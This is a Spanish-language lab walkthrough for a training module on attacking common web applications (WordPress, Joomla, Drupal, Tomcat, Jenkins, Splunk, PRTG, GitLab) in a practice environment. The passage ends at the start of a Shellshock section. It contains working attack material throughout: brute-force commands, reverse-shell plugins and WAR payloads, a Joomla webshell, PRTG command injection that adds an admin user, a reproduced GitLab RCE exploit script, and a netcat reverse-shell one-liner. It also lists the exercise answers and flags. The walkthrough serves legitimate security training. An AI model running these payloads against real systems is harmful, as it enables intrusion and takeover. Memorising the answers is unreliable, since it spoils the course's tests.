# Attacking Common Applications

## Setting the Stage

### Application Discovery & Enumeration

1. **Use what you've learned from this section to generate a report with EyeWitness. What is the name of the .db file EyeWitness creates in the inlanefreight_eyewitness folder? (Format: filename.db)**

En primer lugar tengo que preparar un reporte .xml, para ello usaré la herramienta **nmap**

```
nmap -A 10.129.45.163 -oX miReporte.xml
```

```bash
Starting Nmap 7.99 ( https://nmap.org ) at 2026-06-15 15:45 +0200
Nmap scan report for 10.129.45.163
Host is up (0.044s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 3f:4c:8f:10:f1:ae:be:cd:31:24:7c:a1:4e:ab:84:6d (RSA)
|   256 7b:30:37:67:50:b9:ad:91:c0:8f:f7:02:78:3b:7c:02 (ECDSA)
|_  256 88:9e:0e:07:fe:ca:d0:5c:60:ab:cf:10:99:cd:6c:a7 (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-title: Testing Default Vhosts
|_http-server-header: Apache/2.4.41 (Ubuntu)
Device type: general purpose|router
Running: Linux 5.X, MikroTik RouterOS 7.X
OS CPE: cpe:/o:linux:linux_kernel:5 cpe:/o:mikrotik:routeros:7 cpe:/o:linux:linux_kernel:5.6.3
OS details: Linux 5.0 - 5.14, MikroTik RouterOS 7.2 - 7.5 (Linux 5.6.3)
Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Una vez obtenido el reporte, es cuando usaremos la herramienta **eyewitness**

```
eyewitness --web -x miReporte.xml -d 10.129.45.163
```

- -x --> nombre del archivo .xml
- -d --> nombre de la carpeta donde irá guardado los escaneos a partir del archivo .xml

Se me creara una carpeta de la ip objetivo con todos los archivos escaneado.

<p align="center"> 

</p>

answer: **ew.db**

2. **What does the header on the title page say when opening the aquatone_report.html page with a web browser? (Format: 3 words, case sensitive)**

En esta ocasión usaremos el reporte sacado de la herramienta de nmap **miReporte.xml**, luego llevaremos acabo la herramienta **aquatone** 

```
cat miReporte.xml | ./aquatone 
```

```bash
Targets    : 7
Threads    : 3
Ports      : 80, 443, 8000, 8080, 8443
Output dir : .

10.129.45.163: port 80 open
http://10.129.45.163/: 200 OK
http://10.129.45.163/: screenshot successful
Calculating page structures... done
Clustering similar pages... done
Generating HTML report... done

Writing session file...Time:
 - Started at  : 2026-06-15T15:56:54+02:00
 - Finished at : 2026-06-15T15:57:00+02:00
 - Duration    : 5s

Requests:
 - Successful : 1
 - Failed     : 0

 - 2xx : 1
 - 3xx : 0
 - 4xx : 0
 - 5xx : 0

Screenshots:
 - Successful : 1
 - Failed     : 0

Wrote HTML report to: aquatone_report.html
```

En la ultima línea observaremos como ha creado un reporte con el nombre **aquatone_report.html**
Luego, abriremos este reporte en un navegador:

```
firefox aquatone_report.html
```

<p align="center"> 

</p>

answer: **Pages by Similarity**

## Content Management Systems (CMS)

### Wordpress - Discovery & Enumeration

1. **Enumerate the host and find a flag.txt flag in an accessible directory.**

Recordemos de añadir en el fichero **/etc/hosts** el hosts **blog.inlanefreight.local**

En esta ocasión use herramienta como **gobuster** y **dirbuster**, pero dirbuster no me dio la carpeta necesaria, para superar esta actividad pero sí gobuster

```
gobuster dir -u http://blog.inlanefreight.local/wp-content/ -w /usr/share/wordlists/dirb/common.txt
```

```bash
.hta                 (Status: 403) [Size: 289]
.htaccess            (Status: 403) [Size: 289]
.htpasswd            (Status: 403) [Size: 289]
index.php            (Status: 200) [Size: 0]
plugins              (Status: 301) [Size: 349] [--> http://blog.inlanefreight.local/wp-content/plugins/]
themes               (Status: 301) [Size: 348] [--> http://blog.inlanefreight.local/wp-content/themes/]
upgrade              (Status: 301) [Size: 349] [--> http://blog.inlanefreight.local/wp-content/upgrade/]
uploads              (Status: 301) [Size: 349] [--> http://blog.inlanefreight.local/wp-content/uploads/]
```

La carpeta **uploads** es clave aquí para conseguir la flag.txt, luego investigando en la siguiente ruta, encontramos la **flag.txt**

```
http://blog.inlanefreight.local/wp-content/uploads/2021/08/flag.txt
```

answer: **0ptions_ind3xeS_ftw!**

2. **Perform manual enumeration to discover another installed plugin. Submit the plugin name as the answer (3 words).**

A continuación voy a explicar dos posibles métodos para descubrir que plugins tiene instalado esta página.

En primer lugar, usaremos la herramienta **wpscan** de la siguiente manera:

```
wpscan --url http://blog.inlanefreight.local/ --enumerate ap --plugins-detection aggressive
```

Lo único que este comando tarda bastante en procesar toda la información pero es bastante completa

<p align="center"> 

</p>

En segundo lugar, sería ir a la pagina web y visitar el siguiente sitio.

<p align="center"> 

</p>

una vez visitado el siguiente sitio, nos dará la siguiente url 

<p align="center"> 

</p>

A continuación, escribiremos el siguiente comando para encontrar el plugin

```
curl -s 'http://blog.inlanefreight.local/?p=1' | grep plugin
```

<p align="center"> 

</p>

Luego, para encontrar la versión, bastaría visitar la siguiente pagina:

```
http://blog.inlanefreight.local/wp-content/plugins/wp-sitemap-page/readme.txt
```

<p align="center"> 

</p>

answer: **wp sitemap page**

3. **Find the version number of this plugin. (i.e., 4.5.2)**

answer: **1.6.4**

### Attacking WordPress

1. **Perform user enumeration against http://blog.inlanefreight.local. Aside from admin, what is the other user present?**

```
wpscan --url http://blog.inlanefreight.local/ --enumerate u
```

<p align="center"> 

</p>

answer: **doug**

2. **Perform a login bruteforcing attack against the discovered user. Submit the user's password as the answer.**

```
wpscan --url http://blog.inlanefreight.local/ --passwords /usr/share/wordlists/rockyou.txt --usernames doug
```

<p align="center"> 

</p>

answer: **jessica1**

3. **Using the methods shown in this section, find another system user whose login shell is set to /bin/bash.**

Iniciamos sesión en wordpress con las credenciales **doug**:**jessica1**

```
http://blog.inlanefreight.local/wp-login.php/
```

Luego en la kali preparamos lo siguiente:

```
cp /usr/share/webshells/php/php-reverse-shell.php reverse-shell.php
```

Aquí es donde se encuentra la plantilla que tenemos que editar 
**/usr/share/webshells/php/php-reverse-shell.php**

Luego ese fichero que nos hemos traído al escritorio hay que editarlo para que wordpress nos lo detecte:

<p align="center"> 

</p>

Es muy importante, añadir lo que hemos señalado porque sino wordpress no nos dejará subir el plugins

```
/*
Plugin Name: Reverse Shell
Plugin URI: http://shell.com
Description: gimme a shell
Version: 1.0
Author: me
Author URI: http://www.me.com
Text Domain: shell
Domain Path: /languages
*/
```

<p align="center"> 

</p>

Esto sirve para prepara restablecer la shell de la maquina objetivo en nuestra kali, en mi caso, sería así:

```
$ip = '10.10.15.11'; 
$port = 4445;       
```

Luego, ese archivo .php lo comprimo en zip 

```
zip reverse-shell.zip reverse-shell.php 
```

<p align="center"> 

</p>

Preparamos el puerto de escucha

```
nc -lvp 4445
```

Subimos el plugins a la página de wordpress, nos vamos al siguiente apartado

**Plugins** - **Add New** - **Upload Plugin**

<p align="center"> 

</p>

Recuerda que hay q subir los plugins en formato **.zip**. Luego, hay que activar dicho plugins.

Tenemos el puerto de escucha activo

<p align="center"> 

</p>

Luego, para que la shell se vea mas bonita, miramos que version de python tenemos y ejecutamos el siguiente comando:

```
which python3
python3 -c "import pty;pty.spawn('/bin/bash')"
cat /etc/passwd
```

<p align="center"> 

</p>

Para conseguir que la sesión, no se vaya al carajo cuando le damos al **control + c**, haremos lo siguiente:

**control z**

```
stty raw -echo; fg
reset xterm
export TERM=xterm
export SHELL=bash
```

Por último, leemos el fichero **/etc/passwd**

```
cat /etc/passwd
```

<p align="center"> 

</p>

answer: **webadmin**

4. **Following the steps in this section, obtain code execution on the host and submit the contents of the flag.txt file in the webroot.**

El término **webroot** se utiliza ampliamente en desarrollo y servidores web para referirse a la carpeta principal (o directorio raíz) de un sitio web.

Dentro de la maquina objetivo, ejecutamos el siguiente comando para encontrar posibles flag del que habla el enunciado:

```
find / -name "*flag*" 2>/dev/null
```

<p align="center"> 

</p>

```
cat /var/www/blog.inlanefreight.local/flag_d8e8fca2dc0f896fd7cb4cb0031ba249.txt
```

answer: **l00k_ma_unAuth_rc3!**

### Joomla - Discovery & Enumeration 

1. **Fingerprint the Joomla version in use on http://app.inlanefreight.local (Format: x.x.x)**

Para saber la versión de joomla tendremos que hacer lo siguiente: 

```
curl http://app.inlanefreight.local/administrator/manifests/files/joomla.xml 
```

<p align="center"> 

</p>

answer: **3.10.0**

2. **Find the password for the admin user on http://app.inlanefreight.local**

```
git clone https://github.com/ajnik/joomla-bruteforce.git 
```

>Esta herramienta está diseñado específicamente para realizar pruebas de **fuerza bruta** contra el panel de administración de un sitio web que utiliza el gestor de contenidos Joomla.

```
sudo python3 joomla-brute.py -u http://app.inlanefreight.local/ -w /usr/share/metasploit-framework/data/wordlists/http_default_pass.txt -usr admin
```

answer: **turnkey**

### Attacking Joomla

1. **Leverage the directory traversal vulnerability to find a flag in the web root of the http://dev.inlanefreight.local/ Joomla application**

Para la realización de este ejercicio en el fichero **/etc/hosts** tengo escrito lo siguiente: 

<p align="center"> 

</p>

Luego en la pagina web

```
http://app.inlanefreight.local
```

Nos logueamos con las credenciales **Admin**:**turnkey** 

<p align="center"> 

</p>

Nos aparecerá este nuevo apartado, e iniciamos sesion en joomla con las mismas credenciales introducidas anteriormente. En el apartado **Extensions** - **Templates** - **Styles** nos situaremos

<p align="center"> 

</p>

Luego, le daremos a **Protostar** 

<p align="center"> 

</p>

Luego nos iremos a **error.php**

<p align="center"> 

</p>

y escribiremos el siguiente codigo en el script

<p align="center"> 

</p>

```
 system($_GET['maliciousparameter']);
```

Luego, en nuestra terminal escribiremos el siguiente comando 

```
curl -s http://app.inlanefreight.local/templates/protostar/error.php?maliciousparameter=id  
```

Tendremos una webshell.

<p align="center"> 

</p>

Como el objetivo de la actividad es encontrar la flag en la carpeta raiz de la pagina **dev.inlanefreight.local** lo haremos de la siguiente forma 

```
curl -s http://app.inlanefreight.local/templates/protostar/error.php?maliciousparameter=ls+/var/www/
```

<p align="center"> 

</p>

Luego haremos listaremos la pagina **dev.inlanefreight.local**

```
curl -s http://app.inlanefreight.local/templates/protostar/error.php?maliciousparameter=ls+/var/www/dev.inlanefreight.local
```

<p align="center"> 

</p>

```
curl -s http://app.inlanefreight.local/templates/protostar/error.php?maliciousparameter=cat+/var/www/dev.inlanefreight.local/flag_6470e394cbf6dab6a91682cc8585059b.txt
```

<p align="center"> 

</p>

answer: **j00mla_c0re_d1rtrav3rsal!**

### Drupal - Discovery & Enumeration

1. **Identify the Drupal version number in use on http://drupal-qa.inlanefreight.local**

Visitamos la siguiente pagina 

```
http://drupal-qa.inlanefreight.local/CHANGELOG.txt
```

Obtenemos la versiónsion de drupal.

<p align="center"> 

</p>

answer: **7.30**

### Attacking Drupal

1. **Work through all of the examples in this section and gain RCE multiple ways via the various Drupal instances on the target host. When you are done, submit the contents of the flag.txt file in the /var/www/drupal.inlanefreight.local directory.**  

En esta ocasión usaremos **metasploit** es muy importante tener en cuenta la version de drupal que en este caso la versión es 7.30 

```
msconfole -q
search drupal 7
```

<p align="center"> 

</p>

Escogeremos el numero **16**

```
use 16
show options
```

<p align="center"> 

</p>

Este atacante tiene éxito por la version de drupal, que al ejecutarlo obtienes una shell.

```
set RHOSTS 10.129.47.206 #ip maquina objetivo 
set LHOST 10.10.15.11 #ip maquina atacante
set VHOST drupal-qa.inlanefreight.local #Pagina donde reside drupal
run 
```

<p align="center"> 

</p>

Luego con el siguiente comando obtenemos una shell mas visual

```
which python3
python3 -c "import pty;pty.spawn('/bin/bash')"
```

Una vez obtenida la shell, obtenemos la flag

```
ls
cd ..
ls
cd drupal.inlanefreight.local
ls
cat flag_6470e394cbf6dab6a91682cc8585059b.txt
```

<p align="center"> 

</p>

answer: **DrUp@l_drUp@l_3veryWh3Re!**

## Servelet Containers /Software Developmen

### Tomcat - Discovery & Enumeration

1. **What version of Tomcat is running on the application located at http://web01.inlanefreight.local:8180?**

Visitando la siguiente pagina encontramos la version 

```
http://web01.inlanefreight.local:8180/docs/
```

<p align="center"> 

</p>

answer: **10.0.10**

2. **What role does the admin user have in the configuration example?** 

En esta ocasión vamos a **fuzzear** con al herramienta **gobuster**

```
gobuster dir -u http://web01.inlanefreight.local:8180/ -w /usr/share/wordlists/dirb/common.txt
```

<p align="center"> 

</p>

Luego, en el navegador ponemos 

```
http://web01.inlanefreight.local:8180/manager/
```

Nos pedirá unas credenciales que no tenemos pero fallamos aposta y nos saldrá la siguiente pagina, pero podemos observar el rol del usuario **admin**

<p align="center"> 

</p>

Al ingresar la URL en el navegador, descubriremos que solo hay 2 roles: 'admin-gui' y 'admin-script'.

El rol mencionado es para el usuario 'tomcat' actualmente, no pude acceder al rol de 'admin'. *

answer: **manager-gui**

### Attacking Tomcat

1. **Perform a login bruteforcing attack against Tomcat manager at http://web01.inlanefreight.local:8180. What is the valid username?**

A continuación, usaremos metasploit y usaremos el modulo **scanner/http/tomcat_mgr_login** que sirve para buscar credenciales válidas (usuarios y contraseñas) en el panel de administración de **Apache Tomcat** (conocido como _Tomcat Manager_).

```
msfconsole -q
use scanner/http/tomcat_mgr_login
show options
```

<p align="center"> 

</p>

Rellenamos los siguientes huecos

```
set VHOST web01.inlanefreight.local
set RHOSTS web01.inlanefreight.local
set RPORT 8180
set STOP_ON_SUCCESS true
run
```

<p align="center"> 

</p>

Este sería su resultado:

<p align="center"> 

</p>

answer: **tomcat**

2. **What is the password?**

answer: **root**

3. **Obtain remote code execution on the http://web01.inlanefreight.local:8180 Tomcat instance. Find and submit the contents of tomcat_flag.txt** 

Usaremos la herramienta **msfveom** para crear un archivo **.war** 

```
msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.15.11 LPORT=4444 -f war -o malicioso.war
```

Una vez creado el archivo **malicioso.war**

Preparamos el puerto de escucha 

```
sudo nc -lvnp 4444
```

Luego, nos iremos a la pagina de tomcat, e ingresamos las credenciales obtenidas

```
http://web01.inlanefreight.local:8180/manager/html
```

Aquí subimos el archivo **.war** y le daremos **deploy**

<p align="center"> 

</p>

Al principio de la pagina, nos aparecerá lo siguiente:

<p align="center"> 

</p>

le daremos clic donde dice **/malicioso** y obtenemos la shell

Para hacer la shell mas visual, haremos lo siguiente comando

```
python3 -c "import pty;pty.spawn('/bin/bash')"
```

**control z**

```
stty raw -echo; fg
reset xterm
export TERM=xterm
export SHELL=bash
```

Una vez obtenida la shell mas interactiva, intentaremos buscar el archivo **flag** con el siguiente comando: 

```
find / -name "*flag.txt" 2>/dev/null
```

<p align="center"> 

</p>

```
cat /opt/tomcat/apache-tomcat-10.0.10/webapps/tomcat_flag.txt
```

answer: **t0mcat_rc3_ftw!**

### Jenkins - Discovery & Enumeration

1. **Log in to the Jenkins instance at http://jenkins.inlanefreight.local:8000. Browse around and submit the version number when you are ready to move on.**

Recordemos siempre anotar en el fichero **/etc/hosts**  lo siguiente: 

<p align="center"> 

</p>

Luego en el navegador, introducimos las siguientes credenciales **admin**:**admin**

```
http://jenkins.inlanefreight.local:8000/
```

En la esquina inferior derecho de la pagina encontramos la version de la pagina jenkins

<p align="center"> 

</p>

answer: **2.303.1**

### Attacking Jenkins

1. **Attack the Jenkins target and gain remote code execution. Submit the contents of the flag.txt file in the /var/lib/jenkins3 directory**

Obtengo esta flag, justo en el modulo **Attacking - Tomcat** mientras buscaba la flag del ejercicio, encontre la flag de este ejercicio que le corresponde **/var/lib/jenkins3/flag.txt/**

```
cat /var/lib/jenkins3/flag.txt/
```

<p align="center"> 

</p>

Otra forma de conseguir la flag, sería irnos desde la pagina web a **Script Console** y preparamos el siguiente comando:

```
def cmd = 'pwd'
def sout = new StringBuffer(), serr = new StringBuffer()
def proc = cmd.execute()
proc.consumeProcessOutput(sout, serr)
proc.waitForOrKill(1000)
println sout
```

<p align="center"> 

</p>

```
def cmd = 'ls'
def sout = new StringBuffer(), serr = new StringBuffer()
def proc = cmd.execute()
proc.consumeProcessOutput(sout, serr)
proc.waitForOrKill(1000)
println sout
```

<p align="center"> 

</p>

```
def cmd = 'cat flag.txt'
def sout = new StringBuffer(), serr = new StringBuffer()
def proc = cmd.execute()
proc.consumeProcessOutput(sout, serr)
proc.waitForOrKill(1000)
println sout
```

<p align="center"> 

</p>

answer: **f33ling_gr00000vy!**

## Infrastructure/Network Monitoring Tools

### Splunk - Discovery & Enumeration

1. **Enumerate the Splunk instance as an unauthenticated user. Submit the version number to move on (format 1.2.3).**

```
sudo nmap -sV 10.129.48.64 -p 1-10000
```

<p align="center"> 

</p>

```
https://10.129.48.64:8000
```

<p align="center"> 

</p>

Y obtengo la version de splunk

<p align="center"> 

</p>

answer: **8.2.2**

### Attacking Splunk

1. **Attack the Splunk target and gain remote code execution. Submit the contents of the flag.txt file in the c:\loot directory.**

Para esta actividad usaremos el siguiente programa **reverse_shell_splunk**. Su único objetivo es demostrar el impacto de una **vulnerabilidad de configuración o de control de acceso** en el panel de administración. Usaremos el siguiente comando para descargar la herramienta:

```
git clone https://github.com/0xjpuff/reverse_shell_splunk.git
```

Luego accedemos al siguiente fichero **/reverse_shell_splunk/bin/run.ps1** y cambiamos solamente esto.

```
TCPClient('10.10.15.11',4445);
```

El archivo quedaría tal que así:

<p align="center"> 

</p>


Luego, habría que transformar todo el programa **reverse_shell_splunk** en un formato **.tar.gz** con el siguiente comando: 

```
tar -cvzf updater.tar.gz reverse_shell_splunk
```

<p align="center"> 

</p>

Preparamos el puerto de escucha:

```
sudo nc -lvnp 4445 
```

Luego accedemos a la pagina de splunk, e instalamos el archivo que hemos preparado en el siguiente enlace.

```
https://10.129.48.64:8000/en-US/manager/search/apps/local
```

Le damos al botón donde dice **Install app from file** e introducimos nuestro archivo preparado.

<p align="center"> 

</p>

Aparecerá de esta forma:

<p align="center"> 

</p>

Luego, nos fijamos en el puerto de escucha

<p align="center"> 

</p>

```
cd c:\loot
type flag.txt
```

<p align="center"> 

</p>

answer: **l00k_ma_no_AutH!**

### PRTG Network Monitor

1. **What version of PRTG is running on the target?**

Para empezar explicamos brevemente que es **PRTG**

>**PRTG** es el "ojo que todo lo ve" dentro del departamento de sistemas de una empresa, diseñado para centralizar la salud tecnológica de toda la infraestructura en una sola pantalla.

Luego, haremos un escaneo con nmap y de ahí sacaremos un reporte .xml

```
nmap -A 10.129.48.64 -oA mireporte
eyewitness --web -x mireporte.xml -d 10.129.48.64
```

Luego nos preguntará si podemos abrir el reporte.xml

<p align="center"> 

</p>

Luego nos iremos a este apartado del reporte y encontraremos la respuesta de la pregunta 

<p align="center"> 

</p>

answer: **18.1.37.13946**

2. **Attack the PRTG target and gain remote code execution. Submit the contents of the flag.txt file on the administrator Desktop.**

Credenciales portadas para la sesión **prtgadmin**:**Password123**

<p align="center"> 

</p>

Una vez iniciado nos vamos a **setup** - **Account Settings** - **Notifications**

<p align="center"> 

</p>

Luego, nos vamos donde dice **Add new notification**

<p align="center"> 

</p>

Luego nos aparecerá lo siguiente, pues donde dice **Notification Name** escribimos un nombre como **pwened**

<p align="center"> 

</p>

Despues nos iremos al apartado donde dice **Execute Program**, en **Program File** y seleccionamos **Demo exe notification - outfile.ps1** y en **Parameter** ejecutamos el comando, la idea en este caso es crear un usuario con lo máximo privilegio para así obtener la flag.txt, por tanto escribiremos lo siguiente: 

```
test.txt;net user prtgadm1 Pwn3d_by_PRTG! /add;net localgroup administrators prtgadm1 /add
```

<p align="center"> 

</p>

una vez listo, guardamos y se nos guardará la nueva notificación llamada **pwn**

<p align="center"> 

</p>

Tendremos al cuadradito de la derecha del todo, y luego a la campana que se nos abrirá un bocadillo que dice **Send test notification**

<p align="center"> 

</p>

Se nos abrirá la siguiente ventana y le daremos a **OK**

<p align="center"> 

</p>

Con el siguiente comando comprobamos si se ha creado el usuario.

```
nxc smb 10.129.48.64 -u prtgadm1 -p Pwn3d_by_PRTG!
```

<p align="center"> 

</p>

Creado con éxito

```
evil-winrm -i 10.129.48.64 -u prtgadm1 -p Pwn3d_by_PRTG!
```

<p align="center"> 

</p>

answer: **WhOs3_m0nit0ring_wH0?**

## Customer Service Mgmt & Configuration Management

### osTicket

>OsTicket es un sistema de gestión de tickets de soporte técnico de código abierto. Se puede comparar con sistemas como Jira, OTRS, Request Tracker y Spiceworks. OsTicket permite integrar las consultas de los usuarios provenientes de correos electrónicos, llamadas telefónicas y formularios en la web. Está escrito en PHP y utiliza una base de datos MySQL como tecnología subyacente. Puede instalarse tanto en Windows como en Linux. Aunque no hay mucha información sobre OsTicket en el mercado, una búsqueda rápida en Google arroja unos 44,000 resultados. Muchos de estos parecen ser empresas, sistemas educativos, universidades y gobiernos locales que utilizan esta herramienta. Incluso, OsTicket apareció brevemente en la serie Mr. Robot.

1. **Find your way into the osTicket instance and submit the password sent from the Customer Support Agent to the customer Charles Smithson.**

Las credenciales son: 

**`kevin@inlanefreight.local`**:**`Fish1ng_s3ason!`**

La introducimos aquí

```
http://support.inlanefreight.local/scp/login.php
```

Luego, una vez iniciado sesión nos iremos al apartado **Users** y eligeremos al usuario **Charles Smithson**

<p align="center"> 

</p>

Luego, debajo de **Subject** elegimos **VPN password reset** 

<p align="center"> 

</p>

Luego solo nos queda buscar algún post donde nos dice la contraseña del agente.

<p align="center"> 

</p>

answer: **Inlane_welcome!**

### Gitlab - Discovery & Enumeration

1. **Enumerate the GitLab instance at http://gitlab.inlanefreight.local. What is the version number?**

Creamos un nuevo usuario aquí.

<p align="center"> 

</p>

Luego, rellenamos el formulario 

<p align="center"> 

</p>

Y por último, nos iremos al **circulo de interrogacion** - **help** y obtendremos la version del GitLab

<p align="center"> 

</p>

answer: **13.10.2**

2. **Find the PostgreSQL database password in the example project.** 

Empezamos la actividad, explorando el gitlab en **Explore public Projects**

<p align="center"> 

</p>

Luego, nos establecemos donde dice **all** y elegimos **Administrator/Inlanefreight dev**

<p align="center"> 

</p>

Elegimos el proyecto **phpunit_pgsql.xml**

<p align="center"> 

</p>

Aqui encontraremos la respuesta de la pregunta

<p align="center"> 

</p>

answer: **postgres**

### Attacking GitLab

1. **Find another valid user on the target GitLab instance.**

En este repositorio de github llamado [GitLabUserEnum](https://github.com/dpgg101/GitLabUserEnum/blob/main/gitlab_userenum.py) encontraremos su script que está diseñado para **descubrir nombres de usuarios válidos** en una instancia de GitLab. A este proceso se le conoce como **enumeración de usuarios**.

```
./gitlab_userenum.py --url http://gitlab.inlanefreight.local:8081/ --wordlist /usr/share/seclists/Usernames/cirt-default-usernames.txt | grep exists
```

<p align="center"> 

</p>

answer: **demo**

2. **Gain remote code execution on the GitLab instance. Submit the flag in the directory you land in.**

En esta ocasión usaremos este [exploit](https://www.exploit-db.com/exploits/49951) para obtener un RCE en Gitlab esto se debe a que la version 13.10.2 es vulnerable 

El exploit en cuestión

```python
# Exploit Title: Gitlab 13.10.2 - Remote Code Execution (Authenticated)
# Date: 04/06/2021
# Exploit Author: enox
# Vendor Homepage: https://about.gitlab.com/
# Software Link: https://gitlab.com/
# Version: < 13.10.3
# Tested On: Ubuntu 20.04
# Environment: Gitlab 13.10.2 CE
# Credits: https://hackerone.com/reports/1154542

import requests
from bs4 import BeautifulSoup
import random
import os
import argparse

parser = argparse.ArgumentParser(description='GitLab < 13.10.3 RCE')
parser.add_argument('-u', help='Username', required=True)
parser.add_argument('-p', help='Password', required=True)
parser.add_argument('-c', help='Command', required=True)
parser.add_argument('-t', help='URL (Eg: http://gitlab.example.com)', required=True)
args = parser.parse_args()

username = args.u
password = args.p
gitlab_url = args.t
command = args.c

session = requests.Session()

# Authenticating
print("[1] Authenticating")
r = session.get(gitlab_url + "/users/sign_in")
soup = BeautifulSoup(r.text, features="lxml")
token = soup.findAll('meta')[16].get("content")

login_form = {
    "authenticity_token": token,
    "user[login]": username,
    "user[password]": password,
    "user[remember_me]": "0"
}
r = session.post(f"{gitlab_url}/users/sign_in", data=login_form)

if r.status_code != 200:
    exit(f"Login Failed:{r.text}")
else:
    print("Successfully Authenticated")


# payload creation
print("[2] Creating Payload ")

payload = f"\" . qx{{{command}}} . \\\n"
f1 = open("/tmp/exploit","w")
f1.write('(metadata\n')
f1.write('        (Copyright "\\\n')
f1.write(payload)
f1.write('" b ") )')
f1.close()

# Checking if djvumake is installed
check = os.popen('which djvumake').read()
if (check == ""):
    exit("djvumake not installed. Install by running command : sudo apt install djvulibre-bin")

# Building the payload
os.system('djvumake /tmp/exploit.jpg INFO=0,0 BGjp=/dev/null ANTa=/tmp/exploit')


# Uploading it 
print("[3] Creating Snippet and Uploading")

# Getting the CSRF token
r = session.get(gitlab_url + "/users/sign_in")
soup = BeautifulSoup(r.text, features="lxml")
csrf = soup.findAll('meta')[16].get("content")


cookies = {'_gitlab_session': session.cookies['_gitlab_session']}
headers = {
    'User-Agent': 'Mozilla/5.0 (Windows; U; MSIE 9.0; Windows NT 9.0; en-US);',
    'Accept': 'application/json',
    'Accept-Language': 'en-US,en;q=0.5',
    'Accept-Encoding': 'gzip, deflate',
    'Referer': f'{gitlab_url}/projects',
    'Connection': 'close',
    'Upgrade-Insecure-Requests': '1',
    'X-Requested-With': 'XMLHttpRequest',
    'X-CSRF-Token': f'{csrf}'
}
files = {'file': ('exploit.jpg', open('/tmp/exploit.jpg', 'rb'), 'image/jpeg', {'Expires': '0'})}

r = session.post(gitlab_url+'/uploads/user', files=files, cookies=cookies, headers=headers, verify=False)

if r.text != "Failed to process image\n":
    exit("[-] Exploit failed")
else:
    print("[+] RCE Triggered !!")
```

Lo guardamos como **rce_gitlab** y le damos permiso de ejecución

```
chmod +x rce_gitlab
```

Preparamos el puerto de escucha: 

```
sudo nc -lvnp 4445
```

Lanzamos el siguiente comando:

```
python rme_gitlab -t http://gitlab.inlanefreight.local:8081 -u da1 -p daniel123 -c 'rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.15.11 4445 >/tmp/f'
```

Y obtenemos una reverse shell, para hacer la sesion mas visual y que no se caiga haremos lo siguiente: 

```
script /dev/null -c bash
```

**control z**

```
stty raw -echo; fg
reset xterm
export TERM=xterm
export SHELL=bash
```

Luego listamos el contenido y obtenemos la flag

```
ls
cat flag_gitlab.txt
```

<p align="center"> 

</p>

answer: **s3cure_y0ur_Rep0s!**

### Attacking Tomcat CGI

1. **After running the URL Encoded 'whoami' payload, what user is tomcat running as?**

En primer lugar, empezamos esta actividad realizando un escaneo de puerto con nmap

```
nmap -A 10.129.205.30
```

```bash
PORT     STATE SERVICE       VERSION
22/tcp   open  ssh           OpenSSH for_Windows_7.7 (protocol 2.0)
| ssh-hostkey: 
|   2048 ae:19:ae:07:ef:79:b7:90:5f:1a:7b:8d:42:d5:60:99 (RSA)
|   256 38:2e:76:cd:05:94:a6:e7:17:d1:80:81:65:26:25:44 (ECDSA)
|_  256 35:09:69:12:23:0f:11:bc:54:6f:dd:f7:97:bd:61:50 (ED25519)
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
445/tcp  open  microsoft-ds?
5985/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
8009/tcp open  ajp13         Apache Jserv (Protocol v1.3)
| ajp-methods: 
|_  Supported methods: GET HEAD POST OPTIONS
8080/tcp open  http          Apache Tomcat 9.0.17
|_http-favicon: Apache Tomcat
|_http-title: Apache Tomcat/9.0.17
```

Descubro que tomcat tiene la siguiente versión **9.0.17** que permite la ejecución remota de código (RCE) con CGI, es una tecnología que permite a Tomcat ejecutar programas externos (como scripts en **Perl, Python, Bash, o binarios en C/C++**) para generar páginas web dinámicas.

Por tanto, en esta actividad la idea es coger explotar el archivo CGI, por tanto en primer lugar debemos encontrar dicho archivo. Sabemos que el archivo se encuentra en la carpeta **cgi** por tanto fuzeamos en el siguiente comando:

```
ffuf -w /usr/share/dirb/wordlists/common.txt -u http://10.129.205.30:8080/cgi/FUZZ.bat
```

<p align="center"> 

</p>

```
http://10.129.205.30:8080/cgi/welcome.bat
```

<p align="center"> 

</p>


**Bienvenido a CGI. Esta sección aún no funciona. Por favor, regresa a la página de inicio.**

Para activar la línea de comando ponemos **?&** y luego un comando por ejemplo **dir**

```
http://10.129.205.30:8080/cgi/welcome.bat?&dir
```

<p align="center"> 

</p>

Luego, usaremos el comando **set** que en Windows sirve para **ver, crear o modificar las variables de entorno** del sistema operativo. El objetivo es conseguir con este comando la variable **`COMSPEC`**

```
http://10.129.205.30:8080/cgi/welcome.bat?&set
```

<p align="center"> 

</p>

**`COMSPEC`** es una de las variables de entorno más importantes de Windows. Su único trabajo es decirle al sistema operativo **dónde está guardada la consola de comandos (el CMD)**.

Si Windows o cualquier programa necesita abrir una terminal para ejecutar un comando, mira la variable `COMSPEC` para saber a qué puerta ir a tocar.

Por tanto una vez sabido esto, con el siguiente comando obtendremos la respuesta de whoami...

```
http://10.129.205.30:8080/cgi/welcome.bat?&C:\Windows\system32\cmd.exe
```

<p align="center"> 

</p>

Pues permíteme decirte que no va a funcionar porque las URLs no permiten ciertos caracteres como los dos puntos (`:`) o las barras invertidas (`\`) porque se rompería la dirección web. Por eso se usa la **codificación URL** (anteponiendo un `%`). Por tanto la descodificación de los `:` y `\` sería así:

-  `:` se transforma en  `%3A`
-  `\` se transforma en  `%5C`

```
http://10.129.205.30:8080/cgi/welcome.bat?&C%3A%5CWindows%5Csystem32%5Cwhoami.exe
```

<p align="center"> 

</p>

answer: **feldspar\omen**

### Attacking Common Gateway Interface (CGI) Applications - Shellshock

1. **Enumerate the host, exploit the Shellshock vulnerability, and submit the contents of the flag.txt file located on the server.**

Antes de continuar con la actividad hay que entender porque ocurre la vulnerabilidad **.cgi** 

